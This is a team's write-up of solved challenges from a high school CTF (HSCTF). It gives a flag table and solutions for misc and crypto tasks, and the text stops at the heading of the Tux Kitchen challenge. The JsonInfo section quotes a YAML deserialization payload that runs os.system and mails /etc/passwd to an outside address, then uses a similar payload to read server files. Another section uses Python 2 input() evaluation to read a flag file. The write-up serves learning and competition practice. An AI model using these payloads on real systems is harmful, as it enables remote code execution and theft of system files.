A High School CTF event.


We tried to solve challenges as much as possible we can and as a result we secured 23rd position globally.




As you can see from the image we lacks in binary exploitation or pwn challenges field.If anyone interested can contact us :smiley:.


Challenge  Name    | Points           | Flag
------------------ | -----------------| ------------------------
 [A Simple Conversation](#a-simple-conversation-)| 158| hsctf{plz_u5e_pyth0n_3}
 |[Broken Repl](#broken_repl-) | 407| hsctf{dont_you_love_parsers}
 |[Hidden Flag](#hidden-flag-) | 290 | hsctf{n0t_1nv1s1bl3_an5m0r3?-39547632}
 |[64+word](#64word--) | 421| hsctf{b4s3_64_w0rd_s3arch3s_ar3_fu9?}
 |[Broken gps](#broken-gps-) | 280| hsctf{garminesuckz}
 |[Real Reversal](#realreversal-) | 274| hsctf{utf8_for_the_win}
 |[Json Info](#jsoninfo-) | 427| hsctf{JS0N_or_Y4ML}
 |[Massive Rsa](#massive-rsa-) | 256 | hsctf{forg0t_t0_mult1ply_prim3s}
 |[Really Secure Algorithm](#really-secure-algorithm-) | 314 | hsctf{square_number_time}
 |[Tux Kitchen](#tux-kitchen-) | 401 | hsctf{thiii111iiiss_isssss_yo0ur_b1rthd4y_s0ng_it_isnt_very_long_6621}
 |[I Thought Trig Was Really Easy](#i-thought-trig-was-really-easy-) | 374 |hsctf{:hyperthonk:}
 |[Tux Talk Show 2019](#tux-talk-show-2019) | 406 | hsctf{n1ce_j0b_w4th_r4ndom_gue33ing}
 |[Bitecode](#bitecode--) | 377|hsctf{wH04_u_r_2_pr0_4_th1$}
 |[MD5--](#md5---) | 230 | hsctf{php_type_juggling_is_fun}
 |[Networked Password](#networked-password--) | 314 | hsctf{sm0l_fl4g}
 |[Double Trouble](#double-trouble-)| 397| hsctf{koalasarethecutestaren'tthey?}

So I will try to discuss the challenges i loved the *most* here:


# **MISC**

## A Simple Conversation-:
> description: 





### Solution:
 
On looking to the section of source code we see

```python
print("What's your age?")

age = input("> ")

sleep(1)

```
Then I try to think that when it parses the input to input() function then it tries to evaluate it first that is it string , dictionary ,tuple or etc.? So guessing the flag on the server I try to send the arguments as you can see.

```streaker@DESKTOP-DS7FIJL:$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> open("flag").read()
Traceback (most recent call last):
  File "talk.py", line 18, in <module>
    age = input("> ")
  File "<string>", line 1, in <module>
IOError: [Errno 2] No such file or directory: 'flag'
streaker@DESKTOP-DS7FIJL:$ nc misc.hsctf.com 9001
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> open("flag.txt").read()
Wow!
Sometimes I wish I was hsctf{plz_u5e_pyth0n_3}
...
```
There you can see the flag:`hsctf{plz_u5e_pyth0n_3}`

## Broken_Repl-:
> description: 




 ### Solution:
 
```python
    try: # try to compile the input
                code = compile(line, "<input>", "exec") # compile the line of input
            except (OverflowError, SyntaxError, ValueError, TypeError, RecursionError) as e: # user input was bad
                print("there was an error in your code:", e) # notify the user of the error
            if False: exec(code) # run the code
            # TODO: find replacement for exec
            # TODO: exec is unsafe
except MemoryError: # we ran out of memory
    # uh oh
    # lets remove the flag to clear up some memory
    print(flag) # log the flag so it is not lost
```
You can see that you have to cause memory error only. So my teammate Lucas looked on web and finds out [this](https://stackoverflow.com/questions/50709371/ast-literal-eval-memory-error-on-nested-list).
So you can see that we can cause memory error from nested list.Great learning :smiley:

```python
echo "[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[[]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]]" | nc misc.hsctf.com 8550
>>> s_push: parser stack overflow
hsctf{dont_you_love_parsers}
```
There is the flag:`hsctf{dont_you_love_parsers}`
    
## Hidden Flag-:
> description: 




 ### Solution:
 
 I opened up my hexeditor HXD a great tool to change and view the hexes of file quite easily and
 I see messed up bytes in beginning.
 
 
 
 
 Then at the end of the file i see some text `key is invisible`.
 So then i realise that the bytes must be xored with the key and we got it by this [script](assets/misc/fixchall.py).
 
```python
import binascii
from itertools import cycle,izip

f=open("chall.png")
g=(f.read())
key="invisible"
ciphered = ''.join(chr(ord(c)^ord(k)) for c,k in izip(g, cycle(key)))
l=open("fixed.png","a+")
l.write(ciphered)

```
That's it :smiley:


 
## 64+Word -:
> description: 



### Solution :
So from the description we see the word search and challenge name is 64+. So we need to do base64 word search of flag.
Be sure as the base64 encode texts are multiple of 4 . So choose the texts accordingly.Here is the [Script](/assets/misc/ord64.py)

```python
from  base64 import *
file=open("64word.txt")
data=file.read().split("\n")
o=0
while o<100:
    g=data[o:]
    for q in range(100):
        j=q
        s=""
        for i in g:
            if j>=len(i):
                break
            s+=i[j]
            j+=1
        possible_text=(b64decode(s[:4*(len(s)//4)]))
        if "hsctf{" in possible_text[:6]:
            end_ind=possible_text.find('}')+1
            print("The flag is "+ possible_text[:end_ind] )
            exit(0)
    o+=1

```

then there is the flag:`hsctf{b4s3_64_w0rd_s3arch3s_ar3_fu9?}`

## Broken gps-:
> description:
Input Format:


A challenge to test some coding skills.

### Solution:
Here's the [script](assets/misc/dir_gps.py) thats explain it all.

```python
import math

suffix=".txt"
flag=""
dirs=["east","west","south","north","northwest","northeast","southeast","southwest"]
for i in range(1,13):
    up=0
    right=0
    filename=str(i)+suffix
    f=open(filename)
    h=(f.read()).split()
    for q in range(int(h[0])):
        pos=dirs.index(h[q+1])
        if pos==0 or pos==5 or pos==6:
            right+=1
        if pos==1 or pos==4 or pos==7:
            right-=1
        if pos==3 or pos==4 or pos==5:
            up+=1
        if pos==2 or pos==6 or pos==7:
            up-=1
    flag+=chr(round(math.sqrt(up*up+right*right)*2)%26+97)
print('hsctf{'+flag+'}')
            
```
and here is the output:
>hsctf{garminesuckz}

another script as well written by teammate in a more formal way :
```python
import numpy as np
from math import sqrt

dict_direction = {
    "north":     np.array([ 0.0, 1.0]),
    "northeast": np.array([ 1.0, 1.0]),
    "northwest": np.array([-1.0, 1.0]),
    "east":      np.array([ 1.0, 0.0]),
    "south":     np.array([ 0.0,-1.0]),
    "southeast": np.array([ 1.0,-1.0]),
    "southwest": np.array([-1.0,-1.0]),
    "west":      np.array([-1.0, 0.0])
}

def distance(point1, point2):
    x1, y1 = point1
    x2, y2 = point2
    return sqrt((x2 - x1)**2 + (y2 - y1)**2)

flag = ""

for filename in range(1,13):

    position_wrong = np.array([0.0, 0.0])
    position_right = np.array([0.0, 0.0])

    with open(f"{filename}.txt") as f:
        coords = f.read().strip().split('\n')[1:]

        for coord in coords:
            position_wrong += dict_direction[coord]
            position_right -= dict_direction[coord]

        flag += chr(ord('a') + round(distance(position_wrong, position_right)) % 26)

print(f"hsctf{{{flag}}}")
```

## RealReversal-:
> description: 



### Solution:
On opening file we see 



Reversing the file means reversing the hexes.So one liner will do that 

```open("reversed_reversed.txt", "wb").write(open("reversed.txt", "rb").read()[::-1])```

and on opening reversed file you see utf-8 chars



Explanation:Why it happens that on the reverse bytes we can't see any characters, because 

>UTF-8 is a variable width character encoding capable of encoding all 1,112,064 valid code points in Unicode using one to four 8-bit bytes.

So on reversing 8 bytes it messed up as it reversed in two parts of four and four.Thus resulting in random chars.
So you can see the flag now in reverse order:`hsctf{utf8_for_the_win}`

## JsonInfo-:
> description: 



### Solution:
Trying few thing we see that it accepts string and shows that it's json or give the error otherwise.
So we quite stuck on thinking that what kind of error we have to produce.Then googling skills had to come as it is misc, so we found a beautiful [link](https://bzdww.com/article/164589/) and in section 5 we see yaml.load
and here is the warning:

>Refer to the PyYAML documentation:

>Warning: It is not safe to call yaml.load with data received from an untrusted source! Yaml.load is just as powerful as pickle.load, so you can call any Python function.
In this beautiful example found in the popular Python project Ansible , you can provide this value as (valid) YAML to Ansible Vault, which calls os.system() with the parameters provided in the file.

>!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
Therefore, effectively loading YAML files from user-supplied values ​​will open the door for attacks.

>repair:

>Always use yaml.safe_load unless you have a very good reason.

So we tried to do these thing as instructed here to see if the vulnerability is here:

```
Welcome to JSON info!
Please enter your JSON:
!!python/object/apply:os.system ["cat /etc/passwd "]
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
syslog:x:101:102::/home/syslog:/usr/sbin/nologin
Type int is unsupported
Please use a valid JSON array or object
Thank you for using JSON info!

```
So, yeah the vulnerability is here, Great!!!

```
streaker@DESKTOP-DS7FIJL:$ nc -q 1 misc.hsctf.com 9999
Welcome to JSON info!
Please enter your JSON:
!!python/object/apply:os.system ["cat flag.txt"]
hsctf{JS0N_or_Y4ML}
Type int is unsupported
Please use a valid JSON array or object
Thank you for using JSON info!
```
The flag is:`hsctf{JS0N_or_Y4ML}`


# **CRYPTO**

## Massive Rsa-:
> description: 





### Solution:

We are given with large modulus and ciphertext
```
n = 950687172821200540428729809153981241192606941085199889710006512529799315561656564788637203101376144614649190146776378362001933636271697777317137481911233025291081331157135314582760768668046936978951230131371278628451555794052066356238840168982528971519323334381994143826200392654688774136120844941887558297071490087973944885778003973836311019785751636542119444349041852180595146239058424861988708991060298944680661305392492285898022705075814390941667822309754536610263449507491311215196067928669134842614154655850281748314529232542980764185554607592605321212081871630106290126123668106453941684604069442637972979374182617204123679546880646955063471680804611387541602675808433185504968764805413712115090234016146947180827040328391684056285942239977920347896230959546196177226139807640271414022569186565510341302134143539867133746492544472279859740722443892721076576952182274117616122050429733446090321598356954337536610713395670667775788540830077914016236382546944507664840405622352934380411525395863579062612404875578114927946272686172750421522119335879522375883064090902859635110578120928185659759792150776022992518497479844711483878613494426215867980856381040745252296584054718251345106582780587533445417441424957999212662923937862802426711722066998062574441680275377501049078991123518677027512513302350533057609106549686502083785061647562269181863107725160293272971931807381453849850066056697913028167183570392948696346480930400320904644898839942228059188904225142187444604612121676565893284697317106343998167640380023972222033520190994951064491572372368101650142992876761420785551386138148283615194775971673577063363049929945959258097086463812469068598955485574579363616634109593903116561526921965491646400040600138481505369027344295330767163087489333402201631708610718911106905154471963379233672543874307197342217544783263700843246351822145605839955798639016346308363889766574606793652730311687899415585873892778899179927359964882217066947566799298173326850382334054179474389651499891117938361854701587568363867264590395711833275763832842002504433841816245069655064326325306033334336469743800464944131049874472540605264250854258280373869113420817955012823462838351481855289027030577957168468047751024562853260494808998446682723835213272609799649864902376137320638444968430858790173696935815430513690803796736064125183005539073920032869713201073105497655763097638587404309062750746064609677994654409535743453776560694719663801069746654445359756195253816544699551
e = 65537
c = 358031506752691557002311547479988375196982422041486602674622689505841503255891193495423484852537391230787811575487947331018616578066891850752360030033666964406349205662189685086812466246139857474435922486026421639388596443953295273675167564381889788905773472245885677132773617051291379731995063989611049809121305468803148551770792609803351375571069366930457307762595216806633327492195442616272627113423143562166655122764898972565860928147259322712805600875994388377208017608434714747741249858321487547543201109467214209112271771033615033493406609653861223917338109193262445432032609161395100024272041503554476490575517100959892951805088735483927048625195799936311280172779052715645263075391841840633949032397082918665057115947698884582406130793211266028238396814146117158924884049679536261009188784571232730683037831940224049822081316216826346444136538278601803972530054219050666898301540575647763640218206611889707353810593843233814867745903144987805142815936160730054575462147126944741419094810558325854901931279755547624294325463528887326262902481099025253153222985717157272371423956465138892784879439141174797253720403065191378958340033965895823856879711180993895832306970105743588207727415495184380531676665121800713201192348940665501790550763379781627493441276077597720109700408848080221149485596419299548121287851605588246207568970548444975309457244824469026820421430723018384050095117420646392648577894835705672984626936461419833136418809219064810002991383584690376016818146065548853387107821627387061145659169570667682815001659475702299150425968489723185023734605402721950322618778361500790860436305553373620345189103147000675410970964950319723908599010461359668359916257252524290941929329344189971893558606572573665758188839754783710992996790764297302297263058216442742649741478512564068171266181773137060969745593802381540073397960444915230200708170859754559500051431883110028690791716906470624666328560717322458030544811229295722551849062570074938188113143167107247887066194761639893865268761243061406701905009155852073538976526544132556878584303616835564050808296190660548444328286965504238451837563164333849009829715536534194161169283679744857703254399005457897171205489516009277290637116063165415762387507832317759826809621649619867791323227812339615334304473447955432417706078131565118376536807024099950882628684498106652639816295352225305807407640318163257501701063937626962730520365319344478183221104445194534512033852645130826246778909064441514943
```
It's really large. So I thought to check anyways on ecc factoring for its to be prime and we got that its really a massive prime number.
So then I realize that choosing a large modulus so that it can be factorized into p & q which should be unknown for the sake of security. But if its a prime number then we have to just calculate euler totient of n i.e. n-1  to exploit it, and then calculate `d=modInverse(e,phi(n))` and tada! we have private exponent, then just basic stuffs.
```python
>>> import binascii
>>> binascii.unhexlify(hex(pow(c,d,n))[2:])
'hsctf{forg0t_t0_mult1ply_prim3s}'
```
So the flag is :`hsctf{forg0t_t0_mult1ply_prim3s}`


## Really Secure Algorithm-:
> description: 





### Solution:

We are given with  modulus and ciphertext
```
n = 263267198123727104271550205341958556303174876064032565857792727663848160746900434003334094378461840454433227578735680279553650400052510227283214433685655389241738968354222022240447121539162931116186488081274412377377863765060659624492965287622808692749117314129201849562443565726131685574812838404826685772784018356022327187718875291322282817197153362298286311745185044256353269081114504160345675620425507611498834298188117790948858958927324322729589237022927318641658527526339949064156992164883005731437748282518738478979873117409239854040895815331355928887403604759009882738848259473325879750260720986636810762489517585226347851473734040531823667025962249586099400648241100437388872231055432689235806576775408121773865595903729724074502829922897576209606754695074134609
e = 65537
c = 63730750663034420186054203696069279764587723426304400672168802689236894414173435574483861036285304923175308990970626739416195244195549995430401827434818046984872271300851807150225874311165602381589988405416304964847452307525883351225541615576599793984531868515708574409281711313769662949003103013799762173274319885217020434609677019589956037159254692138098542595148862209162217974360672409463898048108702225525424962923062427384889851578644031591358064552906800570492514371562100724091169894418230725012261656940082835040737854122792213175137748786146901908965502442703781479786905292956846018910885453170712237452652785768243138215686333746130607279614237568018186440315574405008206846139370637386144872550749882260458201528561992116159466686768832642982965722508678847
```
Then I factored n on factordb.
I got that n is the square of a prime number.Then just again simple basic stuffs calculate euler totient of n i.e. p*(p-1) , and then calculate `d=modInverse(e,phi(n))` and tada we have private exponent, then just basic stuffs.

```
>>> p=16225510719965861964299051658340559066224635411075742500953901749924501886090804067406052688894869028683583501052917637552385089084807531319036985272636554557876754514524927502408114799014949174520357440885167280739363628642463479075654764698947461583766215118582826142179234382923872619079721726020446020581078274482268162477580369246821166693123724514271177264591824616458410293414647
>>> import gmpy2
>>> d=gmpy2.invert(e,p*(p-1))
>>> import binascii
>>> binascii.unhexlify(hex(pow(c,d,n))[2:])
'hsctf{square_number_time}'
```
So the flag is :`hsctf{square_number_time}`


## Tux Kitchen-:
> description: 


